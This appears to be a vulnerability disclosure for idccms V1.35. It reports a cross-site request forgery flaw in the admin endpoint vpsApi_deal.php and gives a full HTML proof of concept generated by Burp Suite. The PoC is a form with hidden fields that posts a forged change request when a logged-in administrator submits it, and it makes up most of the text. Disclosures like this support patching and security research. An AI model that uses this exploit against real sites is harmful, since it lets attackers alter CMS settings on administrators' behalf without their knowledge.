 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/vpsApi_deal.php?mudi=rev&nohrefStr=close

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/vpsApi_deal.php?mudi=rev&nohrefStr=close" method="POST">
      <input type="hidden" name="dataID" value="6" />
			<input type="hidden" name="dataTypeCN" value="%E6%8E%A5%E5%8F%A3%E7%B1%BB%E5%9E%8B" />
			<input type="hidden" name="dataType" value="" />
			<input type="hidden" name="dataMode" value="" />
			<input type="hidden" name="dataModeStr" value="" />
			<input type="hidden" name="backURL" value="http%3A%2F%2F127.0.0.1%2Fadmin%2FvpsApi.php%3Fmudi%3Dmanage%26dataMode%3D%26dataModeStr%3D%26dataType%3D%26dataTypeCN%3D%25E6%258E%25A5%25E5%258F%25A3%25E7%25B1%25BB%25E5%259E%258B%26dataType2%3D%26dataID%3D0%26menuID%3D655" />
			<input type="hidden" name="note" value="cs" />
			<input type="hidden" name="rank" value="5" />
			<input type="hidden" name="state" value="1" />
			<input type="hidden" name="x" value="0" />
			<input type="hidden" name="y" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
